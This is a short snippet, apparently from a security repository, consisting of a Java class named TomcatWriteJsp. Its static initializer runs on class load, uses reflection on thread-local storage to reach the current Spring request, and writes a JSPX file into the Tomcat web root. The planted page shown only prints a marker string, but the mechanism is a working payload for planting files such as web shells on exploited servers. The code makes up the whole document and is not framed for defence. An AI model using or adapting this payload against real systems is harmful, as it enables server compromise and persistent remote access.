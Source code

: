 ### TomcatWriteJsp代码

```java
package com.needle;
import java.io.File;
import java.io.FileOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class TomcatWriteJsp {
    static {
        String data = "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n" +
                "<jsp:root xmlns:jsp=\"http://java.sun.com/JSP/Page\"\n" +
                "  version=\"1.2\">\n" +
                "<jsp:directive.page contentType=\"text/html\"/>\n" +
                "<jsp:declaration>\n" +
                "</jsp:declaration>\n" +
                "<jsp:scriptlet>\n" +
                "out.write(\"I'm turn1tup!\");\n" +
                "</jsp:scriptlet>\n" +
                "<jsp:text>\n" +
                "</jsp:text>\n" +
                "</jsp:root>";
        try {
            Field f = Thread.currentThread().getClass().getSuperclass().getDeclaredField("threadLocals");
            f.setAccessible(true);
            Object obj = f.get(Thread.currentThread());
            f = obj.getClass().getDeclaredField("table");
            f.setAccessible(true);//org.apache.catalina.connector.RequestFacade@
            obj = f.get(obj);
            Object[] obj_arr = (Object[]) obj;
            for (int i = 0; i < obj_arr.length; i++) {
                Object o = obj_arr[i];
                if (o == null) continue;
                f = o.getClass().getDeclaredField("value");
                f.setAccessible(true);
                Object att = f.get(o);
                if (att != null && att.getClass().getName().equals("org.springframework.web.context.request" +
                        ".ServletRequestAttributes")) {
                    try {
                        Method getReq = att.getClass().getDeclaredMethod("getRequest", null);
                        Object req = getReq.invoke(att, null);
                        Method getRealPath = req.getClass().getDeclaredMethod("getRealPath", String.class);
                        String realPath = (String) getRealPath.invoke(req, "");
                        String path = realPath + "/foo.jspx";
                        File file = new File(path);
                        FileOutputStream fos = new FileOutputStream(file);
                        fos.write(data.getBytes());
                        fos.flush();
                        fos.close();
                    } catch (Exception e) {
                    }
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```